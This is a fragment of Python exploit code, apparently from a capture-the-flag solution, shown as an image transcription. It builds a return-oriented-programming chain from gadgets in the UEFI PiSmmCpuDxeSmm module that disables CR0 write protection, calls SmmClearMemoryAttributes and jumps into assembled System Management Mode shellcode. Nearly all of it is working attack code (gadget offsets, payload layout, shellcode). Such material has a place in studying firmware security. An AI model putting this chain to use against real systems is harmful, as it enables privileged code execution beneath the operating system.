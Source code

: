 ```python
10954: movdqu xmm14,XMMWORD PTR [rcx+0xd8]
1095b:
1095d: movdqu xmm15,XMMWORD PTR [rcx+0xe8]
10964:
10966: mov    rax,rdx
10969: jmp    QWORD PTR [rcx+0x48]
"""
loong_jump_gadget = PiSmmCpuDxeSmm_base + 0x108F0
mov_cr0rax_gadget = PiSmmCpuDxeSmm_base + 0x10A5F
pop_raxrdi_gadget = PiSmmCpuDxeSmm_base + 0x107FA
pop_rdxrcxrbx_ret = PiSmmCpuDxeSmm_base + 0x106FC
pop_rbx_ret = pop_rdxrcxrbx_ret + 2
ret_addr = PiSmmCpuDxeSmm_base + 0x0000000000001038
# 0x0000000000006260 : mov r8, rdi ; call qword ptr [rax + 0x140]
control_r8 = PiSmmCpuDxeSmm_base + 0x0000000000006260
SmmClearMemoryAttributes_addr = PiSmmCpuDxeSmm_base + 0x7979
ret_0x68 = PiSmmCpuDxeSmm_base + 0x000000000000AF33

smm_shellcode = asm(f"""
    mov rax, [0x44440000];
    mov rcx, [0x44440008];
    mov rdx, [0x44440010];

    ud2;
""")
smm_shellcode = smm_shellcode.ljust(((len(smm_shellcode) // 8) + 1) * 8, b"\x90")

payload = flat(
    {
        0x00: [
            0xBBBBBBBB,  # rbx
            smm_buf_addr + 0x28 + 0x40,
            pop_rbx_ret,
        ],
        0x48: [ret_addr],
        0x50: [
            pop_raxrdi_gadget,
            0x80000033,  # disable WP
            0,
            mov_cr0rax_gadget,
            pop_raxrdi_gadget,
            smm_buf_addr + 0x28 - 0x140,  # ret
            0x2000,
            control_r8,
            # ],
            # 0x50 + 0x68 + 0x40: [
            pop_rdxrcxrbx_ret,
            0x1000,
            0x44440000,
            0,
            SmmClearMemoryAttributes_addr,
            pop_rbx_ret,
            PiSmmCpuDxeSmm_base + 0x1000,
        ],
    },
    word_size=64,
)

"""
3bb6: mov    QWORD PTR [rbx],rax
3bb9: pop    rbx
3bba: ret
"""
```